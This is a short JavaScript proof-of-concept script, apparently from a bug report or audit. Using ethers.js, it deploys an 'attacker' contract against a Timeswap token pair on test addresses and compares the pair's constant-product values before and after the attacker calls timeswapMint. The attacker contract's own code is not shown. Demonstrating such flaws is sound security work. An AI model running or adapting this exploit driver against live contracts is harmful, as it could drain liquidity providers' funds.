 ```
}

async function main() {
    const [tokenDeployer, lp, attacker] = await ethers.getSigners();
    let balance = await tokenDeployer.getBalance()
    let factory = await ethers.getContractAt("TimeswapFactory", "0x5FbDB2315678afecb367f032d93F642f64180aa3", signer=tokenDeployer)
    //let [jtok, usdc] = await launchTestTokens(tokenDeployer)
    let jtok = await ethers.getContractAt("TestToken", "0x2279b7a0a67db372996a5fab50d91eaa73d2ebe6", signer=tokenDeployer)
    let usdc = await ethers.getContractAt("TestToken", "0x8a791620dd6260079bf849dc5567adc3f2fdc318", signer=tokenDeployer)
    console.log("Jtok: "+jtok.address)
    console.log("USDC: "+usdc.address)

    //Create Pair
    //let txn = await factory.createPair(jtok.address, usdc.address)
    pairAddress = await factory.getPair(jtok.address, usdc.address)
    pair = await ethers.getContractAt("TimeswapPair", pairAddress, signer=tokenDeployer)
    console.log("Pair address: "+pairAddress);

    // Deploy LP
    //let lpc = await deployLPContract(lp, jtok, usdc)
    let lpc = await ethers.getContractAt("LP", "0x948b3c65b89df0b4894abe91e6d02fe579834f8f", signer=lp)


    let jtokb = await jtok.balanceOf(lpc.address)
    let usdcb = await usdc.balanceOf(lpc.address)
    console.log("LP Jtok: "+jtokb)
    console.log("LP USDC: "+usdcb)

    //let txn2 = await lpc.timeswapMint(1641859791, 15, pairAddress)
    let res = await pair.constantProduct(1641859791);
    console.log("Post LP Constants:", res);

    let atakcontrak = await deployAttackersContract(attacker, jtok, usdc)

    jtokb = await jtok.balanceOf(atakcontrak.address)
    usdcb = await usdc.balanceOf(atakcontrak.address)
    console.log("Attacker Jtok: "+jtokb)
    console.log("Attacker USDC: "+usdcb)

    //mint some tokens
    let txn2 = await atakcontrak.timeswapMint(1641859791, 15, pairAddress)

    let res2 = await pair.constantProduct(1641859791);
    console.log("Post Attack Constants:", res2);

}
main().then(()=>process.exit(0))

```
